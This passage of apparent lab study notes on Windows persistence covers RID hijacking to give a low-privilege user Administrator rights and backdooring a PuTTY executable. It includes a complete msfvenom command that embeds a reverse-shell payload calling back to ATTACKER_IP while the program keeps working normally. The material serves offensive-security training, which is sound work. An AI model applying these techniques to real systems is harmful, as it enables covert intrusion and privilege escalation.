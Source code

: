 Notice the RID is stored using little-endian notation, so its bytes appear reversed.

![[Pasted image 20240909205431.png]]
		

We will now replace those two bytes with the RID of Administrator in hex (500 = 0x01F4), switching around the bytes (F401):
	![[Pasted image 20240909205345.png]]
		![[Pasted image 20240909205501.png]]
		
From now on, the next time thmuser3 logs in, LSASS will associate it with the same RID as Administrator and grant them the same privileges.

## ==**Backdooring Files**==
Another method of establishing persistence consists of tampering with some files we know the user interacts with regularly. By performing some modifications to such files, we can plant backdoors that will get executed whenever the user accesses them. Since we don't want to create any alerts that could blow our cover, the files we alter must keep working for the user as expected.

While there are many opportunities to plant backdoors, we will check the most commonly used ones.

### Executable Files
If you find any executable laying around the desktop, the chances are high that the user might use it frequently. Suppose we find a shortcut to PuTTY lying around. If we checked the shortcut's properties, we could see that it (usually) points to `C:\Program Files\PuTTY\putty.exe`. From that point, we could download the executable to our attacker's machine and modify it to run any payload we wanted.

You can easily plant a payload of your preference in any .exe file with `msfvenom`. The binary will still work as usual but execute an additional payload silently by adding an extra thread in your binary. To create a backdoored putty.exe, we can use the following command:
```shell-session
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

 **`-a x64`**:
- **Architecture flag**. It specifies the target architecture.
- In this case, `x64` means the payload will target **64-bit** Windows systems.

 **`--platform windows`**:
- This specifies the **target platform** as **Windows**. It tells `msfvenom` that the payload is for a Windows operating system.

 **`-x putty.exe`**:
- **Template executable**. This option is used to specify the **legitimate executable** file (in this case, `putty.exe`) into which the payload will be injected.
- **`putty.exe`** is a common SSH and telnet client for Windows, which is being used here as the template executable.

 **`-k`**:
- **Keep original functionality**. This flag ensures that the original functionality of the file (`putty.exe`) is **preserved**, so it will still run as expected after the payload is embedded.
- The file will run the original program **and** the injected payload.
